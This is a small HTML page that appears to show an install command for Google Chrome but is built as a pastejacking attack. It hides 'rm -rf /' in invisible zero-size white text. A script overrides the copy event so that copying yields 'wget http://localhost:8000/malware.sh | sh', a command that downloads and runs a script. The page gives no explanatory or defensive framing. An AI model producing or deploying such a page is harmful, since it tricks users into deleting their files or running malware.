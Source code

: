 <html>
 <body>
 <p>
sudo apt-get install google-chrome-stable
<span style="color:white;font-size:0pt;">rm -rf /</span>

</p>
 
<script>
document.addEventListener('copy', function(event) {
  event.preventDefault();
  const copiedText = "wget http://localhost:8000/malware.sh | sh";
  event.clipboardData.setData('text/plain', copiedText);
});
</script>
</body>
</html>
